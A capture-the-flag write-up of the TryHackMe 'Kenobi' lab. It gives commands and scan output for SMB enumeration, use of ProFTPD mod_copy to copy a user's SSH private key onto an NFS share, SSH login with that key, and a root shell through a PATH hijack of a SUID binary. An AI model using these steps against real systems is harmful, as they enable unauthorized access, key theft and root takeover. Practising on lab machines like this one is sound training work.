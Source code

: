 ```yaml
---
title: "Kenobi - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Kenobi
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - thm
  - tryhackme
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Kenobi
![](https://kar0nx.github.io/assets/images/writeup/46f437a95b1de43238c290a9c416c8d4.png)

## Reconnaissance

IP: 10.10.226.137
### NMAP

```
nmap -T4 -A -p- 10.10.226.137
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-23 05:59 EDT
Nmap scan report for 10.10.226.137
Host is up (0.048s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         ProFTPD 1.3.5
22/tcp    open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp    open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/admin.html
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp  open  nfs_acl     2-3 (RPC #100227)
37237/tcp open  mountd      1-3 (RPC #100005)
38919/tcp open  mountd      1-3 (RPC #100005)
41121/tcp open  nlockmgr    1-4 (RPC #100021)
59991/tcp open  mountd      1-3 (RPC #100005)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=5/23%OT=21%CT=1%CU=31146%PV=Y%DS=2%DC=T%G=Y%TM=6830
OS:4730%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)
OS:SEQ(SP=107%GCD=1%ISR=10B%TI=Z%II=I%TS=8)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%CI
OS:=I%TS=8)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)SEQ(SP=107%GCD=2%IS
OS:R=10B%TI=Z%CI=I%II=I%TS=8)OPS(O1=M509ST11NW7%O2=M509ST11NW7%O3=M509NNT11
OS:NW7%O4=M509ST11NW7%O5=M509ST11NW7%O6=M509ST11)WIN(W1=68DF%W2=68DF%W3=68D
OS:F%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M509NNSNW7%CC=Y%Q=)
OS:T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=
OS:0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T
OS:6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK
OS:=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m44s, deviation: 2h53m12s, median: -15s
| smb2-time: 
|   date: 2025-05-23T09:59:58
|_  start_date: N/A
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2025-05-23T04:59:58-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   44.99 ms 10.21.0.1
2   45.10 ms 10.10.226.137

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.95 seconds

```

Nmap shows many open ports, the most important are FTP - 21, SSH - 22, SMB - 139/445, NFS - 2049. Nothing special on port 80 HTTP
## SMB

```
smbclient -L ////10.10.226.137//
smbclient //10.10.226.137/anonymous
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250523120405.png)

Log.txt contains:
- Information generated for Kenobi when generating an SSH key for the user
- Information about the ProFTPD server.

## FTP 

http://www.proftpd.org/docs/contrib/mod_copy.html
We can copy id_rsa to mounted directory:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250523122125.png)
## NFS

Now let's mount var share:

```
mkdir /mnt/var
mount -t nfs 10.10.226.137:/var /mnt/var
cd /mnt/var/tmp
cp id_rsa /root/Desktop
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250523120914.png)

And copy id_rsa from target to our machine

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250523122051.png)

## Gaining Access

Connect via ssh:

```
ssh -i id_rsa kenobi@10.10.226.137
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250523122323.png)
We have shell, take user flag and continue.
## Privilege Escalation


After searching for fast wins we can find SUID:

```
find / -perm -u=s -type f 2>/dev/null
```

/usr/bin/menu  - is non-standard and we have 3 options

```
### copied from Try Hack Me
Strings is a command on Linux that looks for human readable strings on a binary.

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).

As this file runs as the root users privileges, we can manipulate our path gain a root shell.

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!
```

```
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

Now you can put shell for root or just read root.txt like me

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250523123651.png)